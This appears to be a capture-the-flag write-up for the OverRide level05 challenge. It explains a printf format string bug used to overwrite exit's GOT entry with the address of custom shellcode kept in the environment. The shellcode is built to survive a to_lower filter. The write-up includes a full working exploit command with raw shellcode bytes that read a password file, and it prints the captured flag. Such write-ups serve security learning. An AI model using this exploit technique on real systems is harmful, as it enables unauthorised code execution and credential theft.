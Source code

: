 ##
This time we instantly see a very bad printf usage that is vulnerable to format string attack. This is a classic format string attack where we will replace the address of the exit function in the GOT with the address of our shellcode. But this time our shellcode will not work because it has to get through a to_lower function. We have to cook a new shellcode that does not contain any ascii character between `@` and `[`. The new shellcode is a bit different, we cannot use push eax or a few other little subtilities but it is not that bad to make (yes it was). We place our shellcode in the environment to not be bothered with overflow or stack smashing and everything because our shellcode is big and we add NOPs to make sure we get a little bit of error margin. Last little subtility is we have to write the address in two halves because it is too big and will overflow the stdio buffer.

Finally to get the address of the env, we used [the code](./Ressources/getenv.c).

In order to compile it, we have to use -no-pie and -m32 flags

```bash
level05@OverRide:~$ python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08% 57187d%10$hn% 8340d%11$hn"' | env -i SHELLCODE=$(python -c 'print "\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x6a\x73\x68\x2e\x70\x61\x73\x68\x30\x36\x2f\x2f\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x31\xc0\x89\xe3\x31\xc9\x31\xd2\xb0\x05\xb2\x01\xcd\x80\x89\xc3\x31\xc0\x89\xe1\xb2\x29\xb0\x03\xcd\x80\xb0\x04\xb3\x01\xb2\x29\x89\xe1\xcd\x80\xb0\x01\xcd\x80"') ./level05
```
And we get our flag :
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
